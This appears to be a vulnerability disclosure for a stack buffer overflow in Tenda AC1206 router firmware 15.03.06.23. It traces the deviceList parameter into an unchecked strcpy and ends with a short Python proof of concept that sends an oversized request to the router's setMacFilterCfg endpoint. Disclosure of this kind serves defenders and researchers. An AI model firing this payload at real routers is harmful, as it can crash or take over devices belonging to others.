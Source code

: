 # Tenda AC1206 formSetMacFilterCfg
### Overview
vendor: Tenda
product: AC1206
version: 15.03.06.23
type: Stack Overflow
### Vulnerability Description
Tenda AC1206 15.03.06.23 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 46, it reads in a user-provided parameter `deviceList`. The variable `v3` is passed as a parameter to the `set_macfilter_rules` function. Function `set_macfilter_rules` takes this variable as a parameter and passes it into function `set_macfilter_rules_by_one`. Function `set_macfilter_rules_by_one` calls function `parse_macfilter_rule`, where the first parameter is variable `a2`(actually `v3`) and the second parameter is the stack-based buffer `s_2`. In function `parse_macfilter_rule`, the variable `s`(actually `v3`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)
![](images/3.png)
![](images/4.png)
![](images/5.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```

![](images/1.png)
